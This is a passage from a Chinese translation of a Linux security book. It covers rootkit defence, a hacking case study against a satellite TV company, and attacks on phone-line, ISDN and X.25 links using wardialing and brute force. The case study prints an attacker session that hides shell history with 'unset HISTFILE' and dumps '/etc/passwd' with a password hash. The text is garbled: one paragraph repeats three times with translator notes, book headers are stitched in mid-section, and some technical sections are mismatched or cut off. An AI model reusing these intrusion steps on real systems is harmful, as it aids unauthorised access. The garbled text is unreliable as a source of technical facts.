在响应事件（尤其是 rootkit）时，企业级取证软件可以发挥巨大的作用。它可以搜索受攻击机器上的驱动器和文件，就像机器在面前进行现场分析一样。良好的企业级取证软件（如 `EnCase` 或 `FTK`）允许访问易失数据，甚至提供修改和修复感染系统的能力。

这简化了收集和分析数据（特别是来自多台机器）以及确定机器当前状态的过程，此外提供了远程修复问题的选项。如果受攻击机器预先创建了黄金镜像镜像，企业级取证软件将允许将机器的状态与黄金镜像进行比较，并确定哪些文件被破坏、哪些进程不应运行、哪些端口不应监听、哪些文件不应被使用、哪些模块不应被加载等。

如果任何工具都能在不进行重新安装或不从旧镜像恢复的情况下对机器进行手术级的恢复，那么具有修复能力的企业级取证软件包将非常有效。非常需要提到，并不是所有的企业级取证软件包都是同等的。哪些包对特定的发行版和服务器应用收益最大？每个包在某些关键领域有优势，而在其他领域有劣势。

就像任何工具一样，应该进行基准测试，以查看软件性能如何、如何运行，以及它对 rootkit 是否有效。这里的关键在于，软件应该实现自己的内核模块，并通过它自己的模块访问所有数据，并且从物理角度来看是可能的。

## Rootkit 防御

作为任何攻击的预防措施，防御 rootkit 的第一也是最好的防线是完全补的内核。这将过滤掉许多脚本小子攻击者经常利用的低级漏洞。

此外，虽然某些 rootkit 会在 2.6 环境中运行，但大多数运行在 2.4 内核上的旧攻击与 2.6 内核的更改和安全增强不兼容。因此，保持内核更新是防止 rootkit 和泛泛安全破坏的不可或缺的一部分。

防止 rootkit（尤其是内核模式 rootkit）的另一个因素是遵循第 4 章的建议。消除——或尽可能限制——任何可用于更改、调试或反向工程系统及其应用程序的内容。这使得安装 rootkit 变得非常困难，因为必须先安装许多前提条件。

## 第 5 章：数据网络安全

此外，实施适当的网络访问控制，配置 `chroot` 并限制任何可行的服务。这将对防止破坏产生很大帮助。

防御 rootkit 并识别它们的最终工具是定期、按计划地使用文件完整性检查器。如果文件完整性检查器定期运行在系统中（最好其数据库位于单独的位置），它可以作为早期预警信号，表明系统发生了或正在发生某些事情。

### 总结

本章涵盖了与通信安全（COMMSEC）相关的各种主题，这些主题可以增加监控、保护和修复网络及其主机的能力。它提供了一种稳健的深度防御策略，可以在不同阶段和时间全部或部分实施。

所涵盖的许多项目通过添加额外的工具或实用程序提供了安全性，但也通过从开始就创建一个提供最小权限的合理且计划良好的架构提供了安全性。本章表明，最小权限原则对于任何安全架构、措施或方法论都是至关重要的。

我们试图清晰地展示物理安全（PHYSEC）与通信安全（COMMSEC）之间不可分割的联系。如果没有同样稳健的物理安全，真正稳健的通信安全是不可能的，反之亦然。

最后，我们涵盖了一些实用的事件响应和取证技术，你可以利用这些技术来响应并从各种类型的破坏中恢复。如果遵循这些技术，可以提高响应质量，加快恢复速度并确保系统能够可靠地重新上线。

## 第 6 章

### 案例研究

那个卫星电视系统对 Enrique 来说是一个大目标。他的新客户提供了一笔巨款。为了得到这笔钱，Enrique 只需要黑入该公司的行政服务器并收集所有的客户记录即可。


然而，在遵循标准的收集步骤后，他开始怀疑接受这份工作是否是一个明智的选择。目标公司在互联网上有一个 C 类网段，占用率为 70%。虽然 FreeBSD 上运行着防火墙，但他发现大多数 Web 服务器都运行在 FreeBSD 上，这意味着他无法使用 Internet 服务器漏洞程序或 Linux 0-day 代码。卫星公司的 ISP 是一个硬骨头，没有默认或已知的现场攻击。它像一座城堡，受外部世界的保护得非常好。他必须找到一些不寻常的攻击向量。

他开始跳出框架思考，想象自己是 IT 开发人员或经理之一。他意识到卫星控制系统的管理界面通过一个未打补丁的管理软件版本中的漏洞暴露了。他部署了一场针对管理员的自定义钓鱼活动，希望捕获他们的凭据。计划成功了；他获得了内部网络的访问并开始在系统中进行横向移动。

进入后，他定位了存储在高度受限分段中的客户数据库。他使用自定义漏洞绕过了本地访问控制，并将数据外泄到远程服务器。行动取得了成功，Enrique 如承诺般拿到了报酬。

请稍候...检查磁盘配额

### $ who

```
12:10pm up days, 15:53, 1 user, load average: 0.03, 0.04, 0.04
User    tty         login@ idle JCPU PCPU what
oracle tty1        07:10pm                w
```

### $ unset HISTFILE

```
$ cat /etc/passwd
root:4ABicoYZK3PLM:0:3:::/bin/sh
daemon*:1:5:::/bin/sh
bin*:2:2:::/usr/bin/sh
sys*:3:3:::
```

[...]

此时，他检查了 `/etc/hosts` 并发现了一个非常不错的条目：

#################################### IP 到 X.25

`10.44.2.250`         `x25linux` # 用于 CC 支付的 X.25 linux 设备

他决定给那台 Linux 机器命名：

### $ telnet 10.44.2.250

```
Trying...
Connected to 10.44.2.250.
Escape character is '^'.
Local flow control on
Telnet TERMINAL-SPEED option on
```

Debian GNU/Linux 2.2 x25linux tty1

X25linux login:

Enrique 成功破解了那台 Linux 机器，并从内部配置文件获取了机器的 IP 地址。这为他提供了一个便利的途径，可以通过 X.25 链路入侵该卫星公司。

随后，他很快获得了对客户记录的完全访问权限。他安排将数据交付给客户，而客户也安排将一笔巨款汇给他。

# 第 6 章：非传统攻击向量

在渗透测试范围内，公司在尝试正确识别和选择与通信相关的攻击向量时往往会犯错。主要的错误是将互联网攻击向量视为“恶魔”，将公司所有的精力和主动安全预算集中在这一通信媒介上，而忽略了那些“老派”的攻击向量。

从历史上来看，攻击者告诉我们，无线驱动（wardriving）是处理远程访问的黑客技术。事实如此，但在处理非常规攻击向量时，这只是冰山一角。计算机安全历史——特别是涉及企业网络黑客的历史——充满了高水平攻击的真实故事，这些攻击让攻击者获取了相关公司深处的秘密。

在阅读《地下世界》（Underground: Tales of Hacking）、Michelle Stalalla 和 Joshua Quintner 写的《毁灭大师》（Masters of Destruction: The Gang That Ruled Cyberspace），甚至是像 Clifford Stoll 的经典著作《金鸟蛋》（The Cuckoo’s Egg）等书籍时，你会发现书中入侵者实施的黑客行为总是使用一个或多个非传统的攻击向量。

通过深入分析这些攻击，你可以发现“黄金关键词”：互联网之外，可以将公司与世界连接的旧通信网络。这就是为什么本章专注于所谓的“老派”攻击技术，识别并分析三个主要的向量：

- PSTN
- ISDN
- PSDN

上述攻击向量的选择源于历史和经验。在互联网爆发之前，电话线和 X.25 链路是公司和政府通过企业网络相互通信的唯一方式。即使在今天，世界上仍然充斥着这类“被遗忘”的链路，它们很少受到监控，也很少经过安全测试。

根据我们的经验，当从未测试过这些攻击向量的客户请求渗透测试时，你可能会发现一个或多个安全漏洞，并获得对目标公司内部域网或广网的完全访问权限。

本章将从 Linux 用户独特且不常见的角度，介绍对老派攻击向量进行审计和安全的挑战，并概述了保护组织 PSTN、ISDN 和 PSDN 链路基础设施的步骤。

## PSTN、ISDN 和 PSDN 攻击向量概述

我们过去在安全经验之初学过的一种特殊方法，是用肉眼观察，并试图用渗透者的真实之眼——带着测试者内在的幻想、好奇心和创造力去“观察”目标。我们的目标随后变成了一座古老的城堡，其常见的河桥和塔楼守卫正准备向攻击者的头部倾倒沸油。

### Hacking Exposed Linux: Linux 安全秘密与解决方案

另一边，战士和士兵们学会了（或者创造了！）特洛木马的概念，建造了更高的楼梯，保护自己免受倾倒下的沸油的影响。历史总是会重演……攻击者、防御者、武器和奇特的战争策略、非传统的攻击者。

我们知道这一点，并能想起信息安全（IS）市场日常发展的许多方面……但现在我们闭上了肉眼（即所谓的“跳出框架”的方法），我们以不同的方式看待问题：我们为什么通过主桥进行攻击？它是不是通往外部世界最暴露的链路？城堡之外还会有什么？反之亦然，难道攻击路径不是最让我们暴露脆弱的吗？就像 xIDS 一样，我们是塔楼上的守卫，控制着边界并寻找异常……这就是为什么我们一直在寻找与目标相关的信息，寻找通往外部世界的许多链路——以前建立并被遗忘的桥梁、应急出口以及信任供应商的访问门。

在现实世界中，在渗透测试者的眼中，那些被遗忘的访问路径（往往）变成了，因此我们采用了一种较慢的的老派的方法对它们进行调查，寻找进入城堡核心的专属访问权限。

## 介绍 PSTN

PSTN 代表公共电话交换网（Public Switched Network），即模拟网络。从渗透者的角度来看，PSTN 是有利的，因为它存在许多安全漏洞。

- B 信道运行速度为 64 kbps，用于传输用户数据。
- D 信道运行速度为 16 kbps，用于传输控制和信号信息。

## 介绍 ISDN

ISDN 代表综合业务数字（Integrated Services Network），即数字网络。PSTN 与 ISDN 的主要区别在于数字化的方法，它允许传输语音、数据和视频。

### 攻防破解 Linux：安全机密与解决方案

D 信道，总接口速率为 2.048 Mbps（2-Mbits 线路）。PRI 物理层规范为 ITU-T L431。

在企业世界中，ISDN 主要用于两个重点且特定的资产：

- PBX（程控交换机）：ISDN 线路通常连接到公司的 PBX，以便于管理接入和拨出的语音通信。
- 备份 ISDN 线路：当提到备份 ISDN 线路时，我们指的是 ISDN BRI 线路，它们通常连接到 Cisco 设备并经过正确配置，以建立到 ISP 的 ISDN 数据连接，以便在主 Internet 链路故障时保持连接。在最后的情况下，渗透测试人员可以通过检查 Cisco 设备的 ISDN 配置和日志发现之前未知的 ISDN 相关信息。

## 介绍 PSDN 和 X.25

PSDN（公用交换数据网络）使用传统的模拟电话线传输数据包。尽管它可以被用来描述其他系统，但我们用它来指代通过普通电话线通信的 X.25 网络。

在 20 世纪 70 年代，TLC 市场产生了一系列协议，为公司提供跨公共数据网络（PDN）的广域网（WAN）连接。这项开发工作的成果——由一个名为国际电信联盟（ITU）的联合国机构所完成——是一组协议，其中最流行的是 X.25。

国际电信联盟-电信标准部门（ITU-T）（原 CCIT）是 ITU 负责语音和数据通信的 ITU 委员会。ITU-T 成员包括 FCC、欧洲邮政电信和电报组织、公共运营商以及许多计算机和数据公司。因此，X.25 是由公共运营商（本质上是作为垄断的电话公司）开发的，而不是由任何单一商业企业开发的。因此，该规范的设计旨在无论用户的系统类型或制造商如何都能良好运行。结果是，X.25 是真正的全球标准。

X.25 网络通常被视为“老旧、退役的网络”。然而，在过去的十年里，这些“死掉”的网络成为了针对金融系统、跨国公司、电信公司、Cisco 和军事航空网络以及政府基础设施的日益增加攻击的受害者。事实上，黑客利用 X.25 网络攻击全球的计算机系统。这也是企业公司（尤其是电信公司）所用安全方法的一个方面——他们在 TCP/IP 连接的安全上投入了大量资金，但忽视了他们的 X.25 接入点。大型公司仍然连接到 X.25 网络，例如阿尔卡塞尔（Alcatel）、数字（现 Compaq）、KPMG、E&Y 等。此外，X.25 网络在非洲、中东和中亚被广泛使用（因为它们爆发得得多），导致政府和军事计算机系统连接到这些网络。

许多互联网用户似乎将 X.25 网络视为电信运营商用于实现 Internet 连接的发明。

# 第 6 章：非常规的数据攻击向量

另一个常见的错误是认为 X.25 网络不再使用了；这是完全错误的！X.25 技术一直用于构建最无处不在的数据——由 PTT（邮电电信部门）组成的全球公共数据网络，连接了至少 95 个国家。

互联网管理员可能认为，跨越 X.25 网络追踪攻击者几乎是不可能的。克里福德·斯托尔书籍《金谷蛋》（*The Cuckoo’s Egg*）中的描述加强了这种印象。在书的一个章节，作者描述了联系 Telenet/SprintNet 的 Ron Vivier 的过程，他联系了 Steve White，以此类推，回到德国的汉诺威。事实上，跨越 X.25 网络追踪攻击与在 TCP/IP 网络一样简单（或困难）。

这个快速概述结束于提到成立于 1949 年的国际航空电信协会（SITA）（http://www.sita.aero）。SITA 是一家全球性公司，管理许多航空公司的航班连接。在世界各地的机场，你都会发现带有 SITA 登录横幅的计算机。SITA 拥有自己的 X.25 网络，并决定“共享”该网络，强制网络用户地址（NUA）的前三位成为国家的标识符。

记住，不仅仅是公共数据网络使用 X.25；许多私有和企业网络也使用 X.25。这里描述的一些技术同样适用于私有网络。处理跨 X.25 网络发生的攻击需要能够：

- 监控流量
- 检查系统日志
- 识别呼叫的来源和目标

本章的最后一部分将解释 TCP/IP 和 X.25 安全测试之间的主要区别，包括 PSDN ITU 标准协议的技术概述。

## 通信网络攻击

针对你的通信网络的首个攻击很可能是拨号攻击（wardialing attack）。在拨号攻击中，攻击者将拨打电话号码并监听计算机显而易见的回答声。没有什么能阻止一个耐心且坚定的攻击者发现连接到你网络的电话号码。你最好的防御是妥善保护连接到你网络的所有线路。

一旦通过拨号发现活动连接，攻击者将尝试使用横幅抓取（banner-grabbing）技术收集系统信息，然后进行所有常见的登录/密码攻击。

## 通用 RAS 数字

| 流行度 | 8 |
| :--- | :--- |
| 简单性 | 8 |
| 影响 | 10 |
| 风险等级 | 9 |

通用 RAS 数字用于“通用目的”。公司通常会忘记它们，因为这些电话线路包含在“支持和帮助台”的月度合同费用中。在其他情况下，由于这些电话线路包含在“支持和帮助台”的月度合同费用中，公司通常会忘记它们。

（注：此处原文似乎存在重复逻辑，已按原文翻译）

通用 RAS 数字用于“通用目的”。公司通常会忘记它们，因为这些电话线路包含在“支持和帮助台”的月度合同费用中。在其他情况下，由于这些电话线路包含在“支持和帮助台”的月度合同费用中，公司通常会忘记它们。

（注：此处原文似乎存在重复逻辑，已按原文翻译）


（注：此处原文似乎存在重复逻辑，已按原文翻译）

通用 RAS 数字用于“通用目的”。公司通常会忘记它们，因为这些电话线路包含在“支持和帮助台”的月度合同费用中。在其他情况下，由于这些电话线路包含在“支持和帮助台”的月度合同费用中，公司通常会忘记它们。

# Hacking Exposed Linux：Linux 安全秘籍与解决方案

安全策略还应要求使用模糊的用户名和强密码。任何需要访问 IT 管理拨号连接的个人，都应该遵循关于密码管理的安全策略。

# 主机 RAS 拨号

| 流行度: | 5 |
| 简单性: | 8 |
| 影响力: | 10 |
| 风险评分: | 8 |

在这种情况下，我们指的是那些旧电话线从电信运营商的“墙上设备”或 PBX 交换机，连接到如 IBM AS/400、DEC VMS、HP3000 等主机系统的 2.400 bps 或 9.600 bps 调制解调器拨号。显然，测试将从这些操作系统已知的默认账户开始，然后进行到应用程序名称（即使是本地语言——不要忘记这个提示！）以及著名的本地软件应用程序名称——在 20 世纪 80 年代和 90 年代，只有少数公司在为主机环境开发软件。

# 主机 RAS 应对措施

如果这些拨号类型对于公司运营是必要的，请确保遵循关于模糊用户名和强密码的策略。关闭所有使用默认或通用用户名或密码的账户。如果可能，删除这些类型的拨号，或让连接的调制解调器默认处于禁用状态，仅根据公司程序在特定请求时激活它们。

# 奔跑员与销售代理 RAS 拨号

| 流行度: | 8 |
| 简单性: | 8 |
| 影响力: | 5 |
| 风险评分: | 7 |

销售（或转售）商品的公司，无论其核心业务和市场领域如何，都有奔跑员或销售代理 RAS 拨号——当然，不包括初创公司和网商店（顺便说，你可以在那里找到其他类型的拨号）。

奔跑员是上世纪 IT 演变的产物：他们使用 GSM、GPRS、EDGE 和 UMTS 手机作为移动办公室，以及无线访问，当然还有公司的 PSTN 拨号。对于本章而言，我们只对最后这种类型，即 PSTN 奔跑员感兴趣。

# 第 6 章：非常规的数据攻击向量

这些男士和女士住在酒店或其他没有互联网连接的地方时，需要连接到公司的局域网，以便他们可以访问公司的内网或文件服务器并执行其他类型的活动。

销售代理略有不同。他们更喜欢从家里或小型本地办公室发送订单，并且为多家公司工作（多重代理），因为他们的工作是访问商品买家和卖家，无论商品是什么。他们负责为公司购买商品，并展示他们要出售的产品。这些产品可能来自供应商 A、B 或 C。

因此，他们不需要连接到供应商的文件服务器。他们只是想连接到供应商的主机，启动他们基于 Web 的应用程序并快速发送订单，以便在月底收到款项，届时他们所工作的所有供应商都会处理账单和发票开具工作。他们通常进行快速交易并只传输少量数据，尽管如果供应商通过电子邮件与他们通信，他们可能会被授权使用公司的邮件服务器进行电子邮件通信。

在两种情况下，这两组用户都没有经验。奔跑员来自市场、管理、销售等部门，而销售代理通常不是由公司直接雇佣，并使用他们的 PC 连接业务。

这些类别的员工“始终在奔波中”，并且通常不遵守安全策略和最佳实践。弱用户名/密码对出现的可能性非常高。

# 奔跑员与销售代理 RAS 应对措施

尽可能限制这些类型的拨号，并监控异常数据流量模式的活动。需要访问这些拨号的个人应被赋予模糊用户名，遵循公司关于密码的策略，并对其合规性进行监控。

# CEO（和她的女儿）RAS 拨号

| 流行度: | 5 |
| 简单性: | 10 |
| 影响力: | 10 |
| 风险评分: | 8 |

信不信，许多中小企业的 CEO 会向他们的 IT 部门索要一个 RAS 拨号账户。“我不需要在家里读邮件，”或者“我并不理解为什么我不能使用互联网连接而不是向 ISP 付费”——这些是他们使用的业务理由。在某些情况下，CEO 无法切换到 PC，但他们的孩子们会玩从公司的 RAS 上上网。

# 专属拨号应对措施

安全策略不应允许这些类型的拨号。

# 外部供应商拨号

| 流行度: | 5 |
| 简单性: | 8 |
| 影响力: | 5 |
| 风险评分: | 6 |

外部供应商拨号是渗透目标公司内部网络最常见的方式之一。一个典型的机房可能有 EMC2 存储柜、一个顶部带有 PSTN 调制解调器的 IBM 机机架等。在那些完全尊重 ISO27001 标准和当地隐私法的公司中，调制解调器通常是关闭的，仅在收到外部供应商的特定请求时激活（这里可以明确应用社会工程学；这些设备通常由供应商所有，并放置在客户的设施中）。在处理中小企业时，这些程序并不总是能得到遵守——如果他们有特定的策略的话。

攻击将从信息收集阶段开始，然后转向对登录请求进行暴力破解，使用默认账户、外部供应商公司名称和本地分包商进行尝试。

# 外部供应商应对措施

安全策略不应允许这些类型的拨号。如果可能，安全策略不应允许这些类型的拨号。如果这些拨号对于公司运营是必要的，则对于其他拨号的安全策略适用于任何外部供应商拨号。要特别确保默认账户已关闭。

# 报警拨号

| 流行度: | 1 |
| 简单性: | 3 |
| 影响力: | 8 |
| 风险评分: | 4 |

在我们看来，报警电话比标准的“本地”电话号码更危险。根据拨号攻击的逻辑以及 20 世纪 80 年代和 90 年代著名的黑客和电话黑客的历史，攻击者倾向于扫描默认免费的电话。攻击者可以轻易滥用电话网络，避免产生费用或暴露其通话来源。免费热线、城镇、地区、区域、国家、国际/长途免费热线是 PSTN（和 ISDN）扫描的首选目标。

# 800 和免费热线拨号

| 流行度 | 10 |
| 简单性 | 9 |
| 影响力 | 4 |
| 风险评分 | 8 |

信不信，免费热线比标准的“本地”电话号码更危险。根据拨号攻击的逻辑以及 20 世纪 80 年代和 90 年代著名的黑客和电话黑客的历史，攻击者倾向于扫描默认免费的电话。攻击者可以轻易滥用电话网络，避免产生费用或暴露其通话来源。

# 应对措施

如果可能，安全策略不应允许免费热线拨号。如果这些拨号对于公司运营是必要的，则对于其他拨号的安全策略适用于任何免费热线拨号。要特别确保默认账户已关闭。

# 标识抓取 (Banner Grabbing)

| 流行度 | 10 |
| 简单性 | 10 |
| 影响范围 | 2 |
| 风险等级 | 7 |

成功的拨号查询（wardialing）攻击可以收集有关目标系统的信息。连接到响应调制调器时显示的标识（banners）可以帮助攻击者识别连接到 PSTN、ISDN、X.25 网络的操作系统（OS）。关于操作系统的信息可以帮助他们识别默认用户名和密码。

在许多情况下，攻击者可以找到通用的标识，但在某些情况下，他们会发现特定的标识，其中包含公司名称、位置、网络/服务名称，甚至是节点名称。在其他情况下，标识可能指示帮助台电话号码以及 IT 部门的联系人。攻击者可以使用所有这些信息来缩小任何暴力破解密码/登录攻击的关注范围。

# 标识抓取的防御措施

最大限度地减少建立调制调器连接时显示的信息量。授权用户应该通过其他渠道获取 IT 支持和服务的信息，且成功的用户名/密码登录应足以确保他们已连接到正确的网络。

# 密码/登录攻击

| 流行度 | 6 |
| 简单性 | 4 |
| 影响范围 | 10 |
| 风险等级 | 7 |

在过去，攻击者通过查询黄页（纸质版！）来完成针对目标的主要信息收集阶段：那里可以找到公司的 PBX 电话号码、X.25 和 Internet 地址。在这种攻击的中间，信息收集步骤是后续安全评估阶段的强制性步骤。这种攻击在很大程度上基于暴力破解；同时，必须密切关注账户质量和密码列表。当然，与“老派”方法相比，基于互联网的信息收集和竞争性侦察活动在寻找寻找灵感以及与你的目标相关的有用信息和提示时会有很大帮助。请参参考 OSSTMM 的“竞争情报”章节，以了解更多关于收集与目标公司相关的详细信息。

# 第 6 章：非常规的数据攻击向量

139

在使用暴力破解攻击时，攻击者会按目标市场部门（IT、金融、工业、媒体、化工、政府、军方）以及非常集中的“类型”对账户名和密码列表进行分类：最常见的密码、最常用的通用词、仅限默认值、仅限名字、仅限姓氏、仅限应用程序名称等。

# 密码/登录防御措施

你的安全策略应该要求模糊的用户名和强密码，并且你应该强制执行合规性。任何识别网络所有者的信息都应保持最低。

# 需要执行的测试

如前所述，最终渗透测试应针对暴力破解登录请求或 ID/密码请求。即使渗透测试人员具有此类测试的经验，我们也强烈建议他或她参考最新的 OSTMM，获取在此测试阶段需要达到的模块和目标的完整列表。

在本节中你将找到一系列用于执行 PSTN、ISDN 和 PSDN 安全测试的“建议路径”。

# PSTN

在进入有效的测试/攻击阶段之前，你需要找到你正在寻找的有效目标。你可以通过使用不同的自动工具扫描响应调制调器，然后手动拨打每一个，尝试猜测远程机器运行的操作系统，抓取标识，并猜测待测试的默认值和或 ID/密码。

# PSTN 测试路线图

1. 找到公司的 PBX 电话号码格式，例如 `(212) 222-xxxx`。
2. 扫描电话后缀范围，例如 `(212) 222000` 到 `(212) 222-9999`，并保存响应调制调器。
3. 使用你的调制调器和终端仿真器手动拨打响应调制调器。
4. 如果没有从响应调制调器收到任何数据，按几次 ENTER 键；也尝试将终端程序从 `8N1` 更改为 `E71` 或其他组合。
5. 识别每个调制调器的操作系统。
6. 寻找默认值和已知 ID/密码。
7. 基于不同的字典执行暴力破解攻击。

# 黑客攻防 Linux：Linux 安全秘密与解决方案

# ISDN

尽管上述内容适用于 ISDN 世界，但在遇到连接到 ISDN 的 Cisco 设备时，你也可以应用一些特定的测试。

每当你发现连接到 Internet、私有 IP 网络、PSTN、ISDN 或 X.25 的 Cisco 路由器时，以下特定命令（连同 `show config` 或 `run` 以及非常有用的 `show ip route`、`show cdp neig` 等命令）可以帮助你获取 ISDN 的更广视图：

- `show dial map`
- `show isdn history`

通过这种方式，你可能获得你正在测试的机器 ISDN 号，发现更多通过 ISDN 与该机器通信的主机等。

# PSDN

正如同 ISDN 一样，“PSTN”部分中列出的建议也适用于 PSDN 环境。

回到 Cisco 示例，当你发现它也连接到 X.25 网络时，巧妙地尝试以下命令以获取有用的额外信息：

- `show x25 map`
- `show x25 route`

# PSDN 测试通用路线图

对于针对 X.25 的特定测试，渗透测试人员在尝试列举所有分组交换网络 (X.25) 连接并尝试获取组织内已启用 PAD 的系统的访问权限时，会发现以下点很有帮助：

1. 定义你正在检查的是私有的还是公用的 X.25 网络。
2. 订阅或激活 X.25 地址。
3. 定义用于 X.25 的多少个虚拟通道 (`VCs`) 和永久虚拟通道 (`PVCs`)。
4. 列出 X.25 的：
   - 直接连接到 X.25 的系统（COM 回答）
   - 间接连接到 X.25 的系统（CUG、地址扫描、CLID 攻击）
- 列出作为 X.25 到其他网络（TCP/IP、Novell）网关的“桥系统”。
- 验证在 TCP/IP 情况下防火墙工作正常。
- 列出 X.25 的用途。
- 列出使用 X.25 的应用程序。
- 描述与公司目的和隐私需求相关的 X.25 数据流。
- 验证测试期间发现的任何国家法律。
- 检查 X.25 链路是否接受反向付费：这适用于直接和间接连接的主机。
- 如果远程 DTE 接受反向付费，如果呼叫 DTE（NUA 或地理区域来源）：这取决于情况。
- 验证 PSDN 滥用（来自本地或外国网络的扫描活动），检查过去六个月的 X.25 账单，以及主机的 X.25 日志。

# 处理错误代码

以下是处理 X.25 错误代码时使用的步骤路线图：

- 从你的 X.28 连接拨打 X.25 网络上的网络用户地址 (`NUA`)，获取结果代码。如前所述，如果连接到 X.25 的系统（以及 DTE）在线，X.25 的回答应为“已连接”或“COM”。
- 如果通话未成功连接，可能会发现以下回答代码，详见 4.3 节：
  - `NP`
  - `NC`

当你跨大洲执行 X.25 安全测试时（例如从欧洲到非洲、中东或亚洲，或从北美到南美），且你正在处理未良好连接到主要 X.25 国际交换机的网络时，可能会遇到这个问题。

> 对于 X.25 数据通话，请注意 X.25 通话通常由国家 X.25 运营商收费；通常 X.25 运营商可能还会要求年度合同以获得租赁或拨号的 X.25 公共访问。

# Hacking Exposed Linux：Linux 安全秘籍与解决方案

- `OCC`
- `DER`
- `NA`
- `DTE`

X.25 欺骗可能适用于 DTE 问题。

- `RPE`
- 当你在调用 X.25 目标时收到 CLEAR DTE 响应消息时，你可以通过向目标 NUA 添加一个或两个数字数的子地址来扫描 X.25 地址。
- 当你在调用 X.25 目标时收到 CLEAR RPE 响应消息时，你可以使用暴力破解攻击对具有三个字符基准的字母数字扩展进行 X.25 地址扫描。
- 当你发现一个运行中的系统时，请验证是否存在厂商默认的、易猜的或不安全的账户；对于关键系统，请对目标进行暴力破解（见第 5 章）。
- 如果你发现一个存在漏洞的桥接系统，请利用该弱点并映射所使用的网络和系统链接。
- 如果你发现具有 X.25 能力的主机（Sun Solaris, Linux, VMS, OpenVMS, Motorola Codex PAD 等）可以直接访问 X.25，请对各种 X.25 活跃调用执行至少三种不同的 X.25 嗅探操作，以确定数据的隐私级别以及加密技术是否存在。
- 如果你发现允许检查网络日志的操作系统（Sun Solaris, Linux, VMS, OpenVMS, Motorola Codex PAD 等）可以直接访问 X.25，请找到 X.25 日志以验证呼叫地址和被呼叫地址。

## 使用工具

请记住，这些工具是为经验丰富的渗透测试人员设计的，且仅用于合法目的。同样记住，在执行自动和大规模暴力破解攻击时，工具可能会严重损坏远程 PBX、调制调器和/或你正在测试的远程机器操作系统及数据。

此外，请记住，为了执行无授权的操作，你应该拥有电话线路所有者的书面请求、命令和/或许可/授权；否则，你可能会面临计算机犯罪行为的刑事指控，例如侵入、窃听、破坏、DoS 以及类似的行为。

确保客户拥有执行测试的渗透测试人员的所有电话和电子邮件联系方式，以便在发生问题时可以联系测试人员。

## 第 6 章：非常规数据攻击向量

143

### PAW 和 PAWS

PAW 和 PAWS 由 Volker Tanger (`volker.tanger@wyae.de`) 编写，是用 Python 编写的拨号扫描软件（wardial）。PAW（Plain Analog Wardier）用于 PSTN 拨号，而 PAWS（Python Advanced Wardialing System）则是为 ISDN 扫描设计的。PAW 扫描速率为 9 kb/s 或更高的“现代”模拟调制调器——我们可以利用它们，以及 ISDN 上的未经授权的调器——然后将其禁用或以不同的方式配置（例如，对原始呼叫者进行回拨），从而获得更难的网络访问权限。PAW 和 PAWS 需要 Python 模块 `pySerial`，可以从 sourceforge 下载。

## 环境要求

为了正常工作，PAW/PAWS 需要

- Python `2.3`（或更高版本）
- `pySerial` 模块（`1.8` 或更高版本）


- `PAW`: UNIX (Linux, BSD, ...) 和模拟调制调器

- `PAWS`: Linux 内核 2.4.x，同时具有 `/dev/ttyI` ISDN 设备和模拟调制调器

你可以从 http://www.wyae.de/software/paw/ 下载。

## 智能拨号扫描器

`Intelligent Wardialer` 或 `iWar` 是 Da Beave (`beave@softwin.com`) 完全用 C 语言编写的拨号扫描软件。他是一位在地下世界著名的老派黑客，因为他曾在连接到互联网的 (http://deathrow.visch.net/) 的 OpenVMS YAP 和 AXP 集群上运行（现在仍在运行）过去的 BBS。

`iWar` 支持许多功能，包括 MySQL 支持（非常专业！）和 IAX2 VoIP 支持（有关 VoIP 攻击和防御的更多信息请见第 7 章）。目前据我们所知，`iWar` 是第一个以这种高级方式支持 VoIP 的拨号扫描工具！`iWar` 也可用于语音邮箱（VMB）攻击。

以下是 `iWar` 功能描述：

- 完整和普通日志：记录拨号期间所有可能的事件（空音信号、无人接听、运营商载波等）。默认情况下，它只记录你可能感兴趣的内容（载波和可能的电信设备）。
- ASCII 平板文件和 MySQL 日志：你可以记录到传统的 ASCII 平板文件并在 MySQL 数据库中记录信息。
- 随机或顺序拨号
- 远程系统识别：当发现并连接到远程调制调器时，`iWar` 会保持连接并尝试识别系统类型。
- 键标记：当你主动“听取” `iWar` 工作时，如果你听到了有趣的内容，可以通过按某个键进行手动“标记”。你还可以对你发现感兴趣的内容添加注释。
- 多调制调器支持：嘿，看吧——这可是 UNIX。`iWar` 支持你连接到它的尽可能多的调制调器。
- 精优的“curses”显示：这意味着如果你在 Linux 控制台或基于 VT100 的终端上使用 `iWar`，它应该运行良好。这不是转义序列乱码，而是真正的“curses”。
- 全模型支持：`iWar` 不同，它不仅仅是将调制调器作为典型的“文件”打开。它是像文件一样控制调制调器的。

## 第 6 章：非常规的数据攻击向量

`Shokdial` 支持随机扫描和顺序扫描。你也可以强制指定范围，但这是在顺序扫描下完成的。对于随机扫描，请使用 `shokdial -r`；否则，它将默认进行顺序扫描。

如果未指定配置文件，输出将写入 `wardailier.log`，你可以通过 `-L` 指定日志文件，或在配置文件中进行更改（参见帮助文件）。

此外，如果启用了 `-d`（守护进程模式）选项，程序将在后台运行，这样你就可以做其他事情。使用 `-d` 时，它仍然会将日志打印到屏幕上；不过，它只是写入了 `/dev/tty`。

`-c`（配置文件）选项导致 `Shokd` 从配置文件读取。该文件可以是任何格式，且不会经过检查，因此你可以使用多种格式和各种字符串，例如用于寻号器的 `5551234,,1`。

## 要求

你拥有一台现代设备和一条电话线。

你可以从 http://www.w0w0.org/files/misc/shokdial 下载它。

## ward

`ward` 是一个非常优秀的、轻量且快速的用于 UNIX 系统的 C 语言编写的拨号器，其特殊之处在于可以在 PSTN、ISDN 和 GSM 网络上运行。它由 Marco “Raptor” Ivaldi（`raptor@deadbeef.info`）编写，他是一位真正的 OSSTMM 贡献者，在国际地下领域广闻名。`ward` 是一个“经典”拨号工具：它扫描电话号码列表，寻找另一端响应的调制解调器，并提供格式良好的扫描结果输出。`ward` 可以根据用户提供的掩码生成电话号码列表，支持增量顺序或随机顺序（这在某些情况下极其有用！）。

- `ward` 是你 ever找到的最快的 PBX 扫描器之一，已经在 Linux, OpenBSD, FreeBSD, NetBSD, Mac OS X 和 Windows/cygwin 上经过测试。针对你的系统进行调优并编译：`gcc ward.c -o -lm`。由于 `ward` 编写良好且轻量，我们在这里列出它的用法和一些实用的参数。你可以在图 6-3 中看到 `ward` 的工作情况。

用法：

```
/ward [-g file] [-n nummask] [-r] (生成模式)
/ward [-s file] [-t timeout] [-d dev] (扫描模式)
```

生成模式下的参数：

- `-g` : 生成号码列表并保存到文件
- `-n` : 生成模式下使用的数字掩码
- `-r` : 开启随机模式

扫描模式下的参数：

- `-s` : 从文件扫描数字列表
